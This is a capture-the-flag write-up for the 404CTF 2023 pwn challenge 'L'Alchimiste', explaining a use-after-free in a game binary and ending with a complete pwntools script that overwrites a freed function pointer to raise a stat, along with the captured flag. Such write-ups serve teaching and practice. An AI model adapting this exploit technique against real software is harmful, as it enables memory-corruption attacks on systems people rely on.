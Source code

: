```yaml
---
title: CTFs | 404CTF_2023 | Pwn | L'Alchimiste
author: BatBato
date: 2023-06-08
categories: [CTFs, 404CTF_2023, Pwn]
tags: [Pwn, Ghidra, BoF, Use After Free]
permalink: /CTFs/404CTF_2023/Pwn/L_Alchimiste
---
```


# L'Alchimiste

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/06a3eb5c-571f-41f9-93c9-5b7d9914e6df)

For this challenge, we are given [this](https://github.com/Nouman404/nouman404.github.io/blob/main/_posts/CTFs/404CTF_2023/Reverse/l_alchimiste) executable. We can open it on Ghidra and/or run it to understand how it works.

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/94c5dae2-5430-47cc-b15f-062c27f5f2d4)

As we can see, we have multiple options. I first tried to buy a strength potion and to use it multiple time:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/c07af379-31f3-4391-aded-708134021734)

As we can see, we have a double free error. This is because, when we use the strength potion, we call the `useItem` function that does the following:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/353f2dfe-6e0a-4cee-b309-1f5092735677)

As we can see, we free the memory at the location of `param_1+0x10`. If we look at the character creation, we can see that it is the address of the function located after the initial parameter:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/90bd0a23-ad3d-48b4-998e-411d2423819a)

> `param1` is the strength, `param2` is the intelligence and param3 is the gold.
{: .prompt-info}

To better understand why this is a function, we can look at the `buyStrUpPotion` function:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/02b7b3ce-76c8-4099-a7db-67c2d2230dde)

As we can see, we set `puVar1` some values and the last value of `puVar1` is the function `incStr` that increase the strength by 10. We can also notice that the function `incStr` is set even if we don't have enough money to buy the strength potion. So we can use repeatedly the option `1` to buy the potion and then use the option with the option `2`. This will allow us to get any amount of strength we want:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/feec0b73-d79f-4137-8ab6-4a30915e84e1)

As we can see, we now have 230 of strength. Let's have a look at how to get the flag... This is what we are here fore XD:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/f90e8daa-a620-422c-b01b-69974267ee73)


As we cans see, we need `*param_1 >= 0x96` and `param[1] >= 0x96` where `0x96` is equal to `150` in decimal and those parameters are the strength and the intelligence as we saw earlier.

> Note that `*param` <=> `param_1[0]`.
{: .prompt-info}

We have solved the problem of the strength, but what about the intelligence??? There is no function in the program that calls the `incInt` to do the same thing as for the strength...

After a bit of digging, I found something called `use after free`. As we saw earlier, the memory is free when we call the `useItem` function, but the memory is not set as null before. This is great, at least for us XD.

We now can try to override the address of the function `incStr` with the address of `incInt` after the free of the `useItem`. If we manage to do so, the address of `incInt` will be at the same memory location than the previous `incStr`. Then the call of `useItem` will think that it is calling the `incStr` but it will be calling `incInt`.

Let's see how to this now. For that we need to head back to the `buyStrPotion`. This function will set the address of the `incStr` function int `puVar1[8]` but if we look at the assembly code, we can see that it is at the position `+0x40`.

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/2f3380e8-8b75-40c1-b80f-56535e608d66)

We can then try to override the first `64` (`0x40`) characters and then put the address of `incInt` that can be found in Ghidra.

The final code I used is the following:

```python
from pwn import *
warnings.filterwarnings("ignore", category=BytesWarning)
#io = process("./l_alchimiste")
HOST, PORT = "challenges.404ctf.fr", 30944 
io = remote(HOST, PORT)

def getStrength():
	io.recvuntil(">>> ")
	io.sendline("2")
	io.recvuntil(">>> ")
	io.sendline("1")

def checkStrength():
	io.recvuntil(">>> ")
	io.sendline("4")
	text = io.recvuntil("1:")
	print(text)
	if b"FOR: 160" in text:
		return 1
	else:
		return 0

def setInteligence():
	io.recvuntil(">>> ")
	io.sendline("2")

	io.recvuntil(">>> ")
	io.sendline("3")
	io.recvuntil("[Vous] : ")
	io.sendline(b"a"*0x40+p64(0x004008d5))

	io.recvuntil(">>> ")
	io.sendline("1")

def checkInteligence():
	io.recvuntil(">>> ")
	io.sendline("4")
	text = io.recvuntil("1:")
	print(text)
	if b"INT: 160" in text:
		return 1
	else:
		return 0

io.recvuntil(">>> ")
io.sendline("1")
okStr = 0
while okStr != 1:
	getStrength()
	okStr = checkStrength()

okInt = 0 
while okInt != 1:
	okInt = checkInteligence()
	setInteligence()
io.recvuntil(">>> ")
io.sendline("5")
print(io.recvline().decode())
print(io.recvline().decode())
print("Flag: ", io.recvline().decode())
```

If we run it locally, we get:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/f1ef2eed-9294-4934-ad80-88cd4a81f5cc)

As we can see, we get the test flag we created. We can now run it on the remote host and get the flag:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/dd33e70d-8bae-4e3b-b5cf-7991f7eb2607)


The flag is `404CTF{P0UrQU01_P4Y3r_QU4ND_135_M075_5UFF153N7}`

